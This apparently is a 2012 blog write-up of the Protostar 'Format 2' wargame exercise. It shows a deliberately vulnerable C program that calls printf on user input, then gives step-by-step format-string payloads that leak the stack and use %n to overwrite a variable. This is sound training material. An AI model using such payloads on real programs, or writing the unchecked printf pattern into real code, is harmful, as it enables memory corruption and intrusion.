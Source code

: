 ```yaml
---
title: "Exploit Exercises - Protostar Format 2"
date: "2012-01-31T05:13:00-05:00"
comments: true
highlight: "true"
categories:
 - formatstring
 - wargames
 - Protostar
 - linux
 - exploit-exercises
 - hacking
---
```


Continuing from where we left off, we arrive at [Format 2](http://exploit-exercises.com/protostar/format2).  It presents us with the following code: 

<!-- more -->

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void vuln()
{
 char buffer[512];

 fgets(buffer, sizeof(buffer), stdin);
 printf(buffer);

 if(target == 64) {
  printf("you have modified the target :)\n");
 } else {
  printf("target is %d :(\n", target);
 }
}

int main(int argc, char **argv)
{
 vuln();
}
```

This challenge seems very similar to Format 1, in all but 2 ways:

1. The input is done via a fgets() instead of from the program arguments.
2. Instead of allowing just any change, it specifically requires "target" to be equal to "64".

We'll start pretty much the same way as last time, spamming "%x": 

```
user@protostar:/opt/protostar/bin$ echo `perl -e 'print "AAAAAAAA" . "%x."x150'` | ./format2
AAAAAAAA200.b7fd8420.bffff624.41414141.41414141.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.a2e78.b7eada75.b7fd7ff4.80496b0.bffff7c8.8048338.b7ff1040.80496b0.bffff7f8.80484f9.b7fd8304.b7fd7ff4.80484e0.bffff7f8.b7ec6365.b7ff1040.bffff7f8.80484c6.80484e0.0.bffff878.b7eadc76.1.bffff8a4.bffff8ac.b7fe1848.bffff860.ffffffff.b7ffeff4.8048285.1.bffff860.b7ff0626.
target is 0 :(
```

This time, however, it seemed MUCH quicker to get the "41414141", only 4 words.  Let's verify: 

```
user@protostar:/opt/protostar/bin$ ./format2
AAAA%x%x%x%x
AAAA200b7fd8420bffff62441414141
target is 0 :(
```

So we're getting to a pretty good point, let's go ahead and find the memory address for "target": 

```
user@protostar:/opt/protostar/bin$ objdump -t format2 | grep target
080496e4 g     O .bss   00000004              target
```

Next, let's put that address in, replacing the "AAAA": 

```
user@protostar:/opt/protostar/bin$ echo `perl -e 'print "\xe4\x96\x04\x08%x%x%x%x"'` | ./format2
200b7fd8420bffff62480496e4
target is 0 :(
```

The address seems to be the last word, without any problems.  So if we convert the last "%x" to "%n", it should overwrite that address in memory with the count of characters printed: 

```
user@protostar:/opt/protostar/bin$ echo `perl -e 'print "\xe4\x96\x04\x08%x%x%x%n"'` | ./format2
200b7fd8420bffff624
target is 23 :(
```

Unfortunately, only 23 characters were written.  We can increase that number artificially by just changing the format string from "%x" to "%44x".  This pads the string to be 44 characters long: 

```
user@protostar:/opt/protostar/bin$ echo `perl -e 'print "\xe4\x96\x04\x08%44x%x%x%n"'` | ./format2
                                         200b7fd8420bffff624
you have modified the target :)
```

That's pretty much how it's done. 

And again, as bonus, if you want to use Direct Argument Access, you can simply do:

```
user@protostar:/opt/protostar/bin$ echo `perl -e 'print "\xe4\x96\x04\x08%7\\\$60x%4\\\$n"'` | ./format2
                                                       a6e24
you have modified the target :)
```
